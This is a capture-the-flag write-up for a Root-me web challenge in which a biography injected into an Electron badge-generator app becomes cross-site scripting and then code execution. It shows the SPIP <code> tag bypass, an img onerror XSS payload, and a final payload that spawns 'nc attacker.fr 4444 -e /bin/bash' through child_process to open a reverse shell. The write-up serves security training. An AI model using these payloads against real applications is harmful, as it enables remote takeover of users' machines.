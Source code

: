 # Badge Generator v2

## Challenge

>   Root-me has decided to make job interviews & CV creation easier for its users by creating an application that generates a badge that can be easily integrated into one's CV.
>
>   You can send your CV to the following address and an employee will give you feedback on your badge.
>
>   Author : `Elweth` 

- Category: Web
- Difficulty: Medium

## Déploiement

- Docker compose

```bash
docker compose up
``` 

## Writeup

The application allow to parse root-me profile to generate a badge.

First it's possible to download the application on the web page at the address :

- http://[target]/static/badge-creator_2.0.0_amd64.deb

Once the .deb downloaded it's possible to install it with the following command

```bash
sudo dpkg -i badge-creator_2.0.0_amd64.deb
``` 

It's now possible to run the application directly in command line

```bash
badge-creator
```

![Badge1](/images/badge1.png)

How it works is pretty straightforward: the user enters a nickname and a badge is generated with the user's profile photo, biography and a few stats on rank, points, etc.

If you take a closer look at the .deb file, you can decompress it to recover its contents. We can do this with 'dpkg-deb' binary

```bash
dpkg-deb -xv badge-creator_2.0.0_amd64.deb .
```

Once extracted we get a lot of files, and you can quickly see that it's an Electron application, thanks to the `opt/badge-creator/resources/app.asar` file.

A little research on the Internet reveals that it is possible to extract the contents of the archive to recover the source code of the Electron application. 

- https://stackoverflow.com/questions/38523617/how-to-unpack-an-asar-file

```bash
npx @electron/asar extract app.asar output/
```

We got the source of the application : 

```bash
$ tree -L 2 output/
output
├── assets
│   └── image.png
├── launch.sh
├── main.js
├── node_modules
│   ├── axios
│   ├── boolbase
│   ├── cheerio
│   ├── cheerio-select
│   ├── css-select
│   ├── css-what
│   ├── domelementtype
│   ├── domhandler
│   ├── dom-serializer
│   ├── domutils
│   ├── entities
│   ├── follow-redirects
│   ├── htmlparser2
│   ├── nth-check
│   ├── parse5
│   └── parse5-htmlparser2-tree-adapter
├── package.json
├── renderer.js
└── views
    └── index.html

19 directories, 6 files
``` 

We can now begin to analyze the sources and understand how the application works.

The main.js file is the application's entry point, and takes care of creating the Electron window.

Parameters are passed to it, notably 'nodeIntegration' and 'contextIsolation'.

When the nodeIntegration parameter is set to 'true' it makes possible to execute NodeJS code in Electron windows.

- main.js

```javascript
function createWindow(pseudo = null) {
    const win = new BrowserWindow({
        width: 800,
        height: 600,
        webPreferences: {
            nodeIntegration: true,
            contextIsolation: false,
        },
        icon: path.join(__dirname, 'assets', 'image.png')
    });

    win.loadURL(`file://${__dirname}/views/index.html`).then(() => {
        if (pseudo) {
            win.webContents.send('auto-get-user-info', pseudo);
        }
    });
}
```

In terms of how data parsing works, the application uses the username entered by the user to make an HTTP request to `https://www.root-me.org/<pseudo>`, and then retrieves the HTML tags containing the user's Biography.

```javascript
const url = `https://www.root-me.org/${pseudo}`;
const response = await axios.get(url);
const $ = cheerio.load(response.data);

...

const bioElement = $('li[class^="crayon auteur-bio-"]');
const bio = bioElement.text() || '';
console.log('Extracted bio:', bio);

...

return { image: fullImgUrl, bio: bio || null, rank, points, challenges, compromissions };
```

Once the data has been retrieved, it is returned to the renderer.js file, which is responsible for displaying it in the window.

Something interesting here is that the data is retrieved as 'text' and then passed into an innerHTML, leaving the possibility of interpreting the HTML tags present in the user's biography.

- renderer.js

```javascript
bioElement.innerHTML = bio;
```

We can insert HTML tags in our biography like this : 

![HTMLi](/images/htmli.png)

However, the tags are not interpreted in electron app, since the data is retrieved in text, not HTML.
 
We're going to have to ensure that our Biography contains HTML code, but without it being interpreted.

To do this, we're going to use the tags offered by SPIP, which can be used to display code.

We have to insert the following content in our bio : 

```html
<code class="html"><u>HTML Injection revenge!</u></code>
```

Now the HTML tags is interpreted in the Electron app.

![htmli2](/images/htmli2.png)

It's possible to change our payload to call Javascript to confirm the XSS :

```html
<code class="html"><img src=x onerror=alert('wtf')></code>
```
![alt text](/images/xss-electron.png)

If you look at main.js, you'll see that the application uses nodeIntegration set to true, allowing NodeJS code to be executed from the Electron window.

We can therefore use our XSS to directly call NodeJS code that will be interpreted on the backend.

```html
<code class="html"><img src=x onerror='require("child_process").exec("nc attacker.fr 4444 -e /bin/bash",function(error,stdout,stderr){console.log(stdout);});'></code>
```

![Flag](/images/flag_badge_creator.png)